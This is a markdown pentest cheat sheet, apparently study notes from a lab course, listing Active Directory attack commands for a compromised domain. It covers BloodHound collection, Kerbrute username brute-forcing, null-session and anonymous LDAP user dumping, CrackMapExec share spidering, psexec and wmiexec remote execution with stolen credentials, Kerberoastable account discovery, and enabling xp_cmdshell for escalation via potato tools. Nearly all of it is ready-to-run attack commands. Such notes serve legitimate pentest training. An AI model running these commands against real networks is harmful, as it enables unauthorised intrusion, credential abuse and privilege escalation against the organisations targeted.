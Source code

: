 Requires Credentials from AD Breach
### Bloodhound AD Enum
``` bash
sudo bloodhound-python -u '<USERNAME>' -p '<PASSWD>' -ns <IP> -d <DOMAIN> -c all 
#run Neo4j
sudo neo4j start
#Open another terminal and run Bloodhound
#Creds: neo4j:kali
bloodhound --no-sandbox
#move zip to bloodhound to load


#WINDOWS HOST:
.\SharpHound.exe -c All --zipfilename <OUTPUT_FILE>
```
# Enumerate usernames
### Kerbrute for valid usernames
Bruteforce for valid usernames with common usernames wordlist
``` bash
kerbrute userenum -d <domain> --dc <IP> <username_list>
#ex:
#kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
#save valid usernames to file:
#cat res.txt | grep "[+]" | cut -d ' ' -f8 | cut -d "@" -f1 > valid_users.txt
```
### SMB NULL Session to Pull User Listen
3 different ways
``` bash
#enum4linux
enum4linux -U <IP>  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

#rpcclient and enumdomusers
rpcclient -U "" -N <IP>
rpcclient $> enumdomusers 

#CrakMapExec
crackmapexec smb <IP> --users

```
### Gathering Users with LDAP Anonymous
``` powershell
#ldapsearch
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

#windapsearch
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
### CrackMapExec with Valid Credentials
``` bash
#requires valid username and password of one AD user
#lists all user credentials and badpwdcount
sudo crackmapexec smb <IP-DC> -u <USERNAMWE> -p <PASSWORD> --users
#Domain Group Enumeration
sudo crackmapexec smb <IP-DC> -u <USERNAMWE> -p <PASSWORD> --groups
#Logged-on users
sudo crackmapexec smb <IP> -u <USERNAMWE> -p <PASSWORD> --loggedon-users
#available shares
sudo crackmapexec smb <IP-DC> -u <USERNAMWE> -p <PASSWORD> --shares
#dig through the share for readable files creates output to /tmp/cme_spider_plus/<IP>
sudo crackmapexec smb 172.16.5.5 -u <USERNAMWE> -p <PASSWORD> -M spider_plus --share '<SHARE_NAME>'
```
### SMBMap Shares
``` bash
#kali
#List shares and access
smbmap -u <USERNAME> -p <PASSWD> -d <DOMAIN> -H <IP>
#List share directories
smbmap -u <USERNAME> -p <PASSWD>2 -d <DOMAIN> -H <IP> -R '<SHARE>' --dir-only
```
# RPCClient
``` bash
#unauthenticated SMB NULL session with target
rpcclient -U "" -N <IP>
#Gather unique RIDs
enumdomusers
```
# Psexex.py
``` bash
#connect to host with psexe (requires local admin creds)
psexec.py <DOMAIN>/<USERNAME>:'<PASSWORD>'@<IP>  
```
### Wmiexec.py
``` bash
#Same as psexec? not sure when to use
wmiexec.py <DOMAIN>/<USERNAME>:'<PASSWORD>'@<IP>  
```
# Credential Enumeration - Windows
### Powershell
``` powershell
Import-Module ActiveDirectory
#Basic information
Get-ADDomain
#List accounts that may be used in Kerberoasting attack
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName-
#Group enumeration
Get-ADGroup -Filter * | select name
#Get more info about specific group
Get-ADGroup -Identity "<GROUP>"
#Get group members
Get-ADGroupMember -Identity "<GROUP>"
```
# SQL Server Admin
SQL Server usually running on admin rights
``` bash
#Check with bloodhound script for sql admin rights:
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
#Login with impacket mssqlclient
#EX: mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
mssqlclient.py <DOMAIN>/<USER>@<IP> -windows-auth
#enable `enable_xp_cmdshell` which allows to execute OS cmds via the Db if the account has the proper access rights.
enable_xp_cmdshell
#we can run commands in the format `xp_cmdshell <command>`. Here we can enumerate the rights that our user has on the system and see that we have [SeImpersonatePrivilege], which can be leveraged in combination with a tool such as [JuicyPotato], [PrintSpoofer], or [RoguePotato] to escalate to `SYSTEM` level privileges
xp_cmdshell whoami /priv
```

# Powerview
``` Powershell
#ALLWAYS IMPORT-MODULE FIRST
Import-module .\PowerView.Ps1
#Remote Desktop Users Group
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```